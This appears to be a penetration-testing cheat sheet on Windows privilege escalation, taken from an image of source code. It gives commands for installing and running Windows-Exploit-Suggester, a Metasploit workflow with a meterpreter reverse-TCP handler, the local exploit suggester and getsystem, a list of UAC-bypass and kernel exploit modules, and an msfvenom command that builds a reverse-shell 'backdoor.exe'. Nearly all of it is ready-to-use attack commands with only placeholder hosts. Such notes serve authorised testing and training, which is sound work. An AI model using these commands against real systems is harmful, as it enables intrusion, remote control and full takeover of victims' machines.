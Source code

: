 ```
## Windows-Exploit-Suggester Install
mkdir Windows-Exploit-Suggester
cd Windows-Exploit-Suggester
wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/f34dcc186697ac58c54ebe1d32c7695e040d0ecb/windows-exploit-suggester.py
# ^^ This is a python3 version of the script

cd Windows-Exploit-Suggester
python ./windows-exploit-suggester.py --update
pip install xlrd --upgrade

./windows-exploit-suggester.py --database YYYY-MM-DD-mssb.xlsx --systeminfo win7sp1-systeminfo.txt

./windows-exploit-suggester.py --database YYYY-MM-DD-mssb.xlsx --systeminfo win2008r2-systeminfo.txt
```

```
## METASPLOIT
## Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler 
options
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>

use post/multi/recon/local_exploit_suggester
set SESSION <HANDLER_SESSION_NUMBER>

## MsfConsole Meterpreter Privesc
getprivs
getsystem

# Exploitable vulnerabilities modules
exploit/windows/local/bypassuac_dotnet_profiler
exploit/windows/local/bypassuac_eventvwr
exploit/windows/local/bypassuac_sdclt
exploit/windows/local/cve_2019_1458_wizardopium
exploit/windows/local/cve_2020_1054_drawiconex_lpe
exploit/windows/local/ms10_092_schelevator
exploit/windows/local/ms14_058_track_popup_menu
exploit/windows/local/ms15_051_client_copy_image
exploit/windows/local/ms16_014_wmi_recv_notif
```

**UAC**

```
# UAC - UACME

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe > backdoor.exe

## METASPLOIT - Listening
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>

```